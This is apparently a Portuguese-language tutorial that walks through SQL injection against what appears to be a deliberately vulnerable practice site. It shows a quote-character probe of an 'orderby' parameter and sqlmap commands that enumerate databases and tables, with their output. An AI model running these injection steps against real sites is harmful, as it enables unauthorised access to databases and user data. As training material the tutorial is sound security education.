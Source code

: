 Vamos tentar passar um caractere proibido como o `'` e ver como site responde.

```
https://hackyourselffirst.troyhunt.com/Make/1?orderby='
```

<img src="https://cloud.githubusercontent.com/assets/8211602/26791649/20b548ca-49ee-11e7-8642-8a3d16e50f91.png" style="width: 100%;"/>

Um bom sinal! Os erros não são tratados e pior, são mostrados imediatamente ao usuário, o que significa que a aplicação pode ser vulnerável. Vamos rodar o [**sqlmap**](https://github.com/sqlmapproject/sqlmap) e tentar explorar essa variável. Primeiro, vamos enumerar os bancos da vítima:

```bash
./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" --dbs
```

E então ele começa a trabalhar, rodando um teste automatizado que enumera os bancos.

<img src="https://user-images.githubusercontent.com/8211602/33934197-47c0c688-dfdf-11e7-809d-8c1f2d5b7164.png" style="width: 100%;"/>

E, como em um passe de mágica, ele nos retorna a estrutura do bancos de dados!

```
[08:17:00] [INFO] retrieved: hackyourselffirst_db
[08:17:01] [INFO] retrieved: master
[08:17:01] [INFO] retrieved: tempdb
[08:17:02] [INFO] retrieved:  
available databases [3]:
[*] hackyourselffirst_db
[*] master
[*] tempdb
```

Agora que já sabemos qual o banco que vamos atacar, precisamos enumerar as tabelas:

```bash
./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" -D hackyourselffirst_db --tables
```

E voalá:

```
[08:30:19] [INFO] fetching tables for database: hackyourselffirst_db
[08:30:19] [INFO] the SQL query used returns 11 entries
[08:30:20] [INFO] retrieved: dbo.Make
[08:30:20] [INFO] retrieved: dbo.Supercar
[08:30:21] [INFO] retrieved: dbo.UserProfile
[08:30:21] [INFO] retrieved: dbo.Vote
[08:30:22] [INFO] retrieved: dbo.webpages_Membership
[08:30:22] [INFO] retrieved: dbo.webpages_OAuthMembership
[08:30:23] [INFO] retrieved: dbo.webpages_Roles
[08:30:23] [INFO] retrieved: dbo.webpages_UsersInRoles
[08:30:24] [INFO] retrieved: sys.database_firewall_rules
[08:30:24] [INFO] retrieved: sys.script_deployment_status
[08:30:25] [INFO] retrieved: sys.script_deployments
Database: hackyourselffirst_db
[11 tables]
+------------------------------+
| Make                         |
| Supercar                     |
| UserProfile                  |
| Vote                         |
| webpages_Membership          |
| webpages_OAuthMembership     |
| webpages_Roles               |
| webpages_UsersInRoles        |
| sys.database_firewall_rules  |
| sys.script_deployment_status |
| sys.script_deployments       |
```